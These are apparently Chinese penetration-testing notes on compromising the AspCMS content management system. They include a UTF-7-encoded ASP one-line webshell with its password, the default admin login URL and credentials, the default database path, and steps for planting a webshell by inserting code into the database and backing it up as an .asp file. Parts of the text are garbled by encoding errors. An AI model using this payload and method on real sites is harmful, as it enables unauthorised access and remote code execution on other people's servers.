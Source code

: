uft7 一句话

```
┼攠數畣整爠煥敵瑳∨≡┩愾
```

 密码：a

 http://www.aspcms.com/admin_aspcms/login.asp

```
admin
123456
```

- 插入asp文件拿webshell
- 新建文件 拿webshell
- 上传文件拿wenshell
- 编辑html 拿webshell
- 备份数据库拿webshell

- ## “” 

asp或者asa 后缀

aspcms默认的这个数据库名是#5Dp8Gh.asp

 http://www.aspcms.com/data/%235Dp8Gh.asp

 备份之后不符合我们的条件 

![image-20210502232342639](../acess/image-20210502232342639.png)

插入数据马

![image-20210502232043781](../acess/image-20210502232043781.png)

备份文件，在备份文件中有ÀàÐÍ²»Æ¥Åä: 'execute'

![image-20210502232236202](../acess/image-20210502232236202.png)
